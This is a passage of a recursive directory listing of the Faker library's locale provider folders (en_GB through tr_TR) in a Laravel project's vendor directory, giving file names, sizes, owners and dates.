drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 1.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  385 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_GB:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.9K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  342 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 4.9K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  943 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_IN:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  340 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  12K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  753 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_NZ:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.2K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  388 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 2.1K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_PH:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  27K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 2.6K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_SG:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 3.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 3.0K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_UG:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 3.7K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  348 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  341 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_US:
total 272K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  37K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 1.2K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  37K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 3.3K Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 162K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_ZA:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 4.4K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  715 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  695 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  13K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 2.8K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/es_AR:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.6K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 7.8K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 1000 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/es_ES:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.0K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 8.4K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  378 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  13K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  628 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/es_PE:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.2K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 7.8K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  326 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/es_VE:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.6K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  937 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  382 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  13K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  648 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/fa_IR:
total 192K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 4.0K Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  35K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 1.3K Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 139K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/fi_FI:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 4.9K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 4.3K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  319 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  15K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  425 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/fr_BE:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 3.0K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  365 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  257 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 1.3K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 4.8K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  411 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/fr_CA:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 4.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 5.2K Apr 29  2016 Person.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/fr_CH:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 5.0K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  342 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  328 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 7.3K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  907 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data   91 Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/fr_FR:
total 760K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 9.7K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 4.8K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  454 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 8.1K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 1.8K Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 705K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/he_IL:
total 72K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  25K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  385 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  28K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  262 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/hr_HR:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.7K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  719 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 2.9K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  284 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/hu_HU:
total 384K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.4K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  294 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 4.7K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  272 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 341K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/hy_AM:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.5K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  383 Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 1.3K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  320 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  16K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  897 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/id_ID:
total 52K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  14K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.1K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  618 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  14K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/is_IS:
total 84K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.5K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  507 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  47K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  388 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/it_CH:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 4.7K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  341 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  328 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 7.2K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  907 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data   91 Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/it_IT:
total 292K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 7.6K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 5.9K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  305 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 6.6K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  577 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 248K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ja_JP:
total 188K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.4K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  373 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 1.5K Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 4.3K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  217 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 146K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ka_GE:
total 440K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  14K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.1K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 1.5K Apr 29  2016 DateTime.php
-rw-r--r--  1 www-data www-data  311 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 2.3K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 9.8K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  271 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 382K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/kk_KZ:
total 84K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 2.6K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  398 Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 2.7K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  261 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  951 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 4.2K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  340 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data  41K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ko_KR:
total 336K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  971 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 4.8K Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 3.9K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  339 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 300K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/lt_LT:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.5K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  445 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  548 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  28K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  347 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/lv_LV:
total 88K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.2K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  554 Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data  300 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  55K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  301 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/me_ME:
total 72K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  12K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 2.8K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  39K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  283 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/mn_MN:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 7.4K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  221 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/nb_NO:
total 68K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  13K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  576 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  30K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  428 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ne_NP:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  15K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.1K Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 8.4K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  364 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/nl_BE:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.7K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  348 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  283 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 1.3K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 4.9K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  411 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/nl_NL:
total 296K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  37K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 2.0K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 1.1K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  277 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  25K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  878 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 200K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/pl_PL:
total 252K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  14K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 2.4K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  332 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 5.4K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  379 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 194K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/pt_BR:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.3K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  979 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  332 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 2.2K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 7.2K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 4.8K Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data  923 Apr 29  2016 check_digit.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/pt_PT:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 6.9K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 6.6K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 1.2K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ro_MD:
total 36K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 7.5K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  12K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  797 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ro_RO:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  12K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  16K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 1.9K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ru_RU:
total 464K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 2.0K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data 1.9K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  345 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  32K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  279 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 382K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/sk_SK:
total 88K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  48K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 6.9K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  332 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  12K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  296 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/sl_SI:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.0K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  325 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 9.1K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  369 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/sr_Cyrl_RS:
total 100K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 7.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  673 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  78K Apr 29  2016 Person.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/sr_Latn_RS:
total 72K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 5.2K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  673 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  50K Apr 29  2016 Person.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/sr_RS:
total 100K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 7.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  78K Apr 29  2016 Person.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/sv_SE:
total 68K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  31K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  571 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  14K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  786 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/tr_TR:
total 40K
